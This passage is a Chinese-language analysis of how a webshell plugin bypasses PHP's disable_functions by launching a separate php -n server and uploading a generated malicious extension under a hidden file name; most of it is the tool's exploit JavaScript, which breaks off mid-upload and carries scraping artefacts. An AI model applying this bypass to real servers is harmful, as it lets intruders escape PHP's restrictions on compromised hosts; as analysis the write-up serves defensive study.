 ```
$headers=get_client_header();
$host = "127.0.0.1";
$port = 60802;
$errno = '';
$errstr = '';
$timeout = 30;
```

这里结合上下代码就能知道,webshell向60802发送了payload

,通过`ps -aux | grep          60802`查看发现是重新启用了一个php服务,然后使用了`-n`也就是不使用`php.ini`,从而绕过了disdisable functions

```
exploit() `{`
    let self = this;
    let fpm_host = '';
    let fpm_port = -1;
    let port = Math.floor(Math.random() * 5000) + 60000; // 60000~65000
    if (self.form.validate()) `{`
      self.cell.progressOn();
      let core = self.top.core;
      let formvals = self.form.getValues();
      let phpbinary = formvals['phpbinary'];
      formvals['fpm_addr'] = formvals['fpm_addr'].toLowerCase();
      if (formvals['fpm_addr'].startsWith('unix:')) `{`
        fpm_host = formvals['fpm_addr'];
      `}` else if (formvals['fpm_addr'].startsWith('/')) `{`
        fpm_host = `unix://$`{`formvals['fpm_addr']`}``
      `}` else `{`
        fpm_host = formvals['fpm_addr'].split(':')[0] || '';
        fpm_port = parseInt(formvals['fpm_addr'].split(':')[1]) || 0;
      `}`
      // 生成 ext
      let wdir = "";
      if (self.isOpenBasedir) `{`
        for (var v in self.top.infodata.open_basedir) `{`
          if (self.top.infodata.open_basedir[v] == 1) `{`
            if (v == self.top.infodata.phpself) `{`
              wdir = v;
            `}` else `{`
              wdir = v;
            `}`
            break;
          `}`
        `}`;
      `}` else `{`
        wdir = self.top.infodata.temp_dir;
      `}`
      let cmd = `$`{`phpbinary`}` -n -S 127.0.0.1:$`{`port`}` -t $`{`self.top.infodata.phpself`}``;
      let fileBuffer = self.generateExt(cmd);
      if (!fileBuffer) `{`
        toastr.warning(PHP_FPM_LANG['msg']['genext_err'], LANG_T["warning"]);
        self.cell.progressOff();
        return
      `}`

      new Promise((res, rej) =&gt; `{`
        var ext_path = `$`{`wdir`}`/.$`{`String(Math.random()).substr(2, 5)`}`$`{`self.ext_name`}``;
        // 上传 ext
        core.request(
          core.filemanager.upload_file(`{`
            path: ext_path,
```